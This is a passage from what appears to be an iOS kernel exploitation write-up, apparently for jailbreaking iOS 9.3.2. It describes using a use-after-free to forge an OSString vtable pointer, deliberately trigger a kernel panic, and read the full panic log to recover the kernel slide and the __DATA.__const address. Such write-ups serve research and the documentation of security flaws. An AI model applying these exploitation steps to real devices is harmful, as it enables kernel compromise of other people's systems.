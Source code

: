 First we need to learn the base address of `__DATA.__const`. That address is stored in the kernel's mach header at offset `0x244`. Since the data segment is non-executable, branching to that location will cause a panic.  
Thus we use the UaF to construct an `OSString` whose vtable pointer points to 4 machine words before offset `0x244`, i.e. `kernel_base + kernel_slide + 0x224`, so that a call to `retain()` will give us:

    Incident Identifier: 0E7ED4DF-23F4-4669-A772-8B46A8D04BF2
    CrashReporter Key:   b25fc727e5bd42cc472643168319ec8bb9b18dec
    Hardware Model:      iPod5,1
    Date/Time:           2016-12-17 23:42:38.38 +0100
    OS Version:          iOS 9.3.2 (13F69)

    panic(cpu 0 caller 0x<ptr>): sleh_abort: prefetch abort in kernel mode: fault_addr=0x857e7000
    r0:   0x96961a40  r1: 0x857e7000  r2: 0x8c000001  r3: 0x00000001
    r4:   0x8b07d7f0  r5: 0x00000001  r6: 0x00000034  r7: 0x800abd34
    r8:   0x96961a40  r9: 0x00000034 r10: 0x80004034 r11: 0x00000001
    r12:  0x85793043  sp: 0x800abcb4  lr: 0x8571eb69  pc: 0x857e7000
    cpsr: 0x80000013 fsr: 0x0000000f far: 0x857e7000

    Debugger message: panic
    OS version: 13F69
    Kernel version: Darwin Kernel Version 15.5.0: Mon Apr 18 16:44:05 PDT 2016; root:xnu-3248.50.21~4/RELEASE_ARM_S5L8942X
    Paniclog version: 3
    Kernel slide:     0x0000000005400000
    Kernel text base: 0x85401000
      Boot    : 0x5855be8a 0x00000000
      Sleep   : 0x00000000 0x00000000
      Wake    : 0x00000000 0x00000000
      Calendar: 0x5855bf22 0x0009c5b9

    Panicked task 0xc65784c8: 926 pages, 8 threads: pid 164: v3tta
    panicked thread: 0xc67478b0, backtrace: 0x800aba00
            0x854c9b63
            0x854c9e39
            0x85420f63
            0x854ccc79
            0x854c6660
            0x8576fa7d
            0x854ab1c9
            0x85410c61
            0x8541be69
            0x854c62fc

Subtracting the kernel slide from the value in `pc` yields the unslid address of `__DATA.__const`: `0x803E7000`.  
That happens to be the same as for the iPhone4,1, so we assume our vtable address to be `0x803ece8c`.  
We can verify whether that is actually the case in the next step.

- If it is, then we're done here.
- If it isn't, I suggest going a few machine words up and down, looking at the panic logs to see what's at that address instead, and trying to figure out where that is in the decrypted kernels, which should give you a rough idea on how far you need to go, and in which direction.
